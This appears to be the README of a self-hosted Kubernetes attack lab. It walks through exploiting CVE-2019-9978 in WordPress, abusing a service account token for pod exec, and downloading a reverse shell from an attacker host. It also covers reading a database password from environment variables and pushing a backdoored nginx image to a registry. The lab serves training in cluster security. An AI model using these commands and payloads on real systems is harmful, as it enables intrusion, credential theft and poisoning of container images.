








# What Is it?
This repository contains an automatically deployed lab for demonstrating attacker capabilities in a kubernetes cluster.

# What you need?
- docker
- kubernetes (via kubeadm on you machine)

# How make it works?

## 1. Up Kubernetes cluster via kubeadm
You can use any guide from the Internet for your system.

## 2. Clone miraclekubernetes repository
```sh
git clone https://github.com/4RAYS-by-SOLAR/kubernetesMiracle.git
```

## 3. Execute laboratory-up.sh
This is up all need services\pods\deployments\rbac e.t.c for this lab
```sh
sudo sh laboratory-up.sh
```

## 4. When you done with lab, clear your cluster
This script deletes all kubernetes resources that were created in step 3
```sh
sudo sh laboratory-down.sh
```

# Laboratory diagram
On this diagram you can see map of the lab **Kubernetes Miracle**


# Default Attack Scenario

### 1. Init Access on the Wordpress Pod via CVE-2019-9978
In our WordPress application we have the social-warfare plugin installed.
This plugin is vulnerable to CVE-2019-9978 through which RCE can be implemented

1. Up our http server with payloads 
```sh
cd payloads
python3 -m http.server 8080
```

2. Use podlist.php payload to list all pods in default namespace (we can do it cause have service account token with list pods RBAC righs (SA - wordpressowner))
```sh
http://{wordpresspodip\serviceip}/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://10.244.0.1:8080/cvewordpress/podlist.php
```


We can find mysql pod in our namespace. Let's try to execute the command in it

### 2. Execute command use a misconfiguration of RBAC

1. So, We don't have a shell in wordpress pod. Using whoami we understand that we are working under www-data and we don't have enough rights to execute, but we can read the service account token and try to execute the command in mysql pod using it.
\
\
Try Using Curl for It (Payload in whoami.php)
```sh
curl -k   --http1.1   -H "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ=="   -H "Sec-WebSocket-Version: 13"   -i -N   -H "Connection: Upgrade"   -H "Upgrade: websocket"   -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"   "https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-cvzfh/exec?command=whoami&container=mysql&stdin=true&stdout=true&stderr=true"

```


2. Download revshell on mysql pod:
```sh
curl -k   --http1.1   -H \"Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==\"   -H \"Sec-WebSocket-Version: 13\"   -i -N   -H \"Connection: Upgrade\"   -H \"Upgrade: websocket\"   -H \"Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)\"   \"https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-pbx2f/exec?command=curl&command=-O&command=http://10.244.0.1:8080/revshell/revshell.sh&container=mysql&stdin=true&stdout=true&stderr=true\"
```



3. Activate revshell

Start listening:
```sh
root@master-node:/home/user# nc -lnvp 6666
Listening on 0.0.0.0 6666
```

Get Shell:


4. Recon in mysql pod and find the login and password for database (it is the same as the registry)
\
Use ENV and search output:
```sh
bash-5.1# env
env
HOSTNAME=wordpress-mysql-5dcfb54f74-pbx2f
DOCKER_REGISTRY_PORT_5000_TCP_PORT=5000
MYSQL_ROOT_PASSWORD=123
DOCKER_REGISTRY_PORT_5000_TCP=tcp://10.100.123.183:5000
DOCKER_REGISTRY_PORT=tcp://10.100.123.183:5000
```

### 3. Hijacking nginx image in docker registry
1. List all images in registry



2. So, We found an image nginx, but we don't see such a pod in the list of pods.
\
We can assume that it is in a different namespace. In this case, to be able to execute code in nginx, you need to hijack the container image on the basis of which it is created.

3. Let's build an image based on the basic nginx, but add revshell there with activation when starting the pod
```sh
Dockerfile
FROM nginx:latest

COPY ./revshell.sh /
RUN chmod 777 /revshell.sh

ENTRYPOINT ["/revshell.sh"]
```
\
```sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# ls
Dockerfile  revshell.sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
nginx        latest    4cad75abc83d   2 months ago   192MB
registry     2.6.2     10b45af23ff3   5 years ago    28.5MB
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker build -t docker-registry:5000/nginx:v1 .
[+] Building 0.2s (8/8) FINISHED                                                                                                  docker:default
 => [internal] load build definition from Dockerfile                                                                                        0.0s
 => => transferring dockerfile: 132B                                                                                                        0.0s
 => [internal] load metadata for docker.io/library/nginx:latest                                                                             0.0s
 => [internal] load .dockerignore                                                                                                           0.0s
 => => transferring context: 2B                                                                                                             0.0s
 => [internal] load build context                                                                                                           0.0s
 => => transferring context: 32B                                                                                                            0.0s
 => [1/3] FROM docker.io/library/nginx:latest                                                                                               0.0s
 => CACHED [2/3] COPY ./revshell.sh /                                                                                                       0.0s
 => CACHED [3/3] RUN chmod 777 /revshell.sh                                                                                                 0.0s
 => exporting to image                                                                                                                      0.0s
 => => exporting layers                                                                                                                     0.0s
 => => writing image sha256:b57dcc8bfea120cb3d4705a8a6c280100b43d93ca1e9ce76fb841cbabffd2309                                                0.0s
 => => naming to docker-registry:5000/nginx:v1                                                                                              0.0s
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker push docker-registry:5000/nginx:v1
The push refers to repository [docker-registry:5000/nginx]
c68502e667c2: Pushed 
c8acd88f1e63: Pushed 
eda01226259d: Layer already exists 
fd2315f0cf24: Layer already exists 
ae2a14e88adb: Layer already exists 
27f473333e2f: Layer already exists 
d8d396eadc9a: Layer already exists 
c1a9699c6559: Layer already exists 
ea680fbff095: Layer already exists 
v1: digest: sha256:47024db27b2d6eb27e44bd95a249c2673a4bf7fa2b458cb5339d9f7dbc9ab377 size: 2192
```

As we can see, two layers were added to the image
This is exactly our revshell

4. We wait until the pod is restarted, then our revshell will be activated. \
As part of the lab, you can restart it yourself
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl delete pod nginx -n outsideserver
pod "nginx" deleted
```

5. After restart nginx we get shell and see, that root filesystem is mount on nginx.
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl apply -f podforbackdoorregistry.yaml 
namespace/outsideserver unchanged
pod/nginx created
```

```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.244.0.178 45354
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@nginx:/# cat /etc/hostname
cat /etc/hostname
nginx
```

### 4. We make an impact

In this part you have access to the node and can do whatever comes into your head.
For example:
* Static Pods
* kubetcd (invisible pod creation)
* /var/log mount pod
* coredns poison
* cronjobs creation
* Cluster admin binding

Hooray!!!
